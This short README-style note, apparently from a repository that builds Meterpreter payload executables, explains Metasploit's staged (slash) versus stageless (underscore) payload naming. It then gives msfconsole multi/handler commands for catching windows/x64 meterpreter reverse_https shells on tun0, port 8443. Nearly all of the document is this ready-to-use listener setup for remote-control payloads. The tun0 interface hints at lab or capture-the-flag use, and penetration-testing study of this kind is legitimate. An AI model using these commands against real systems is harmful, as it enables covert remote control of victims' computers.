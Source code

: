 # tldr


`windows_x64_meterpreter_https_staged_{ip}.exe` is equal to `windows/x64/meterpreter/reverse_https`
> Staged means there is a / (slash) between the word meterpreter and the type of comms it is using
> Stageless means there is an underscore
> in msfconsole you would run

msf> handler

# Handle a staged reverse HTTPS payload
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/x64/meterpreter/reverse_https
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost tun0 
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lport 8443 (the default port)
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit -j -z

# Handle a stageless reverse HTTPS payload
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set payload windows/x64/meterpreter_reverse_https
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lhost tun0 
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> set lport 8443 (the default port)
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> exploit -j -z

